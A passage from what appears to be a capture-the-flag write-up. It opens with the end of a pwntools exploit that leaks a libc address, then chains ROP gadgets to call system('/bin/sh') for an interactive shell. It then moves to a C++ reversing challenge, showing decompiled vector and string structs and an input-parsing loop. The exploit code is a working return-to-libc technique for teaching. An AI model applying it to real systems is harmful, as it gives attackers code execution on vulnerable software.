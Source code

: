 ```python
leak = sh.recvuntil('\n')

libc_addr = u64(leak[:-1] + '\x00\x00') - e.symbols["puts"]
print hex(libc_addr)

rop = p64(0x400958) #retn
rop += pop_rdi
rop += p64(libc_addr + next(e.search("/bin/sh")))
rop += p64(libc_addr + e.symbols["system"])
rop += p64(0)

exploit(rop)

sh.interactive()
```

## 287 Reverse / Mind Space

This is a C++ reverse engineering challenge. Fortunately the optimization is not enabled, otherwise many C++ built-in functions would be "inlined" and the codes would be very messy. The key is to recognize `std::vector`, `std::string` and `angles` structure.

```c
struct angles
{
  _QWORD field_0;
  _QWORD field_8;
};//actually they are `double` type
struct vector
{
  angles *pointer;
  angles *end;
  angles *real_end;
};
struct string
{
  char *pointer;
  size_t len;
  size_t maxlen_data;
  __int64 field_18;
};
```

I would not detail the C++ implementation here, if you want to know just search online or write some test codes with STL and reverse them.

Here are some critical codes:

```c
while ( !std::basic_ios<char,std::char_traits<char>>::eof(&input_stream_256) )
{
  v17 = 0LL;
  std::getline(input_stream, &flag);
  v17 = string::find(&flag, ", ", 0LL);
  string::substr(&v14, &flag, 0LL, v17);
  string::operator_assign(&a1a, &v14);
  string::string_des(&v14);
  string::erase(&flag, 0LL, v17 + 1);
  sndnum = string::strtod((__int64)&flag, 0LL);
  a3 = sndnum - 80.0 - (double)i;
  fstnum = string::strtod((__int64)&a1a, 0LL);
  vector::push_back_withcheck(&a2, (double)i++ + fstnum - 80.0, a3);
  // fstnum is modified and inserted as field_8, and sndnum is field_0
}
```
